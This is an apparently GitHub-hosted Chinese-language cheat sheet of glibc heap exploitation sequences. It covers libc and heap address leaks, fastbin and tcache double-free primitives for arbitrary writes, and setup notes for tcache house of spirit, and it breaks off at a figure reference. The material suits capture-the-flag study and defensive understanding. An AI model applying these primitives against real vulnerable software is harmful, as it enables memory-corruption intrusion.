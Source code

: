 ## 堆利用序列
## 

### 0x1创建unsorted bin然后释放，重新申请后利用visit函数泄露出Libc地址libc 2.23-2.25(no tcache）

    a=malloc(0x80)
    b=malloc(0x80)
    free(a)
    malloc(0x80)
    visit()
### 0x2创建fast bin，释放后泄露heap baselibc 2.23-2.25(no tcache）

    a=malloc(0x40)
    b=malloc(0x40)
    free(a)
    free(b)
    malloc(0x40)
    visit()
### 0x3fastbin dup free利用序列libc 2.23-2.25(no tcache）

    a = malloc(0x20)
    b = malloc(0x20)
    free(a);
    free(b);
    free(a);
    
    malloc(0x20,addr)
    malloc(0x20)
    malloc(0x20)
    malloc(0x20,data)
### 0x4tcache dup free利用序列libc 2.27(no tcache check）

    a = malloc(0x20);
    
    free(a);
    free(a);
    
    malloc(0x20,addr)
    malloc(0x20)
    malloc(0x20,data)

### 0x5tcache house of spirit 泄露libc地址
tcache基础

    每个tcache链上默认最多包含7个块，再次free这个大小的堆块将会进入其他bin中，例如tcache_attack/libc-leak
    默认情况下，tcache中的单链表个数是64个，64位下可容纳的最大内存块大小是1032（0x408），故只要申请一个size大于0x408的堆块，然后free即可


构造三个堆块绕过free检查，避免unlink出错

    // 在 _int_free 函数中
    if (nextchunk != av->top) {
      /* get and clear inuse bit */
      nextinuse = inuse_bit_at_offset(nextchunk, nextsize);
    可以看到free函数对当前的堆块的nextchunk也进行了相应的检查，并且还检查了nextchunk的inuse位，这一位的信息在nextchunk的nextchunk中，所以在这里我们总共要伪造三个堆块。第一个堆块我们构造大小为0x500，第二个和第三个分别构造为0x20大小的堆块，这些堆块的标记位，均为只置prev_inuse为1，使得free不去进行合并操作。如图：
    
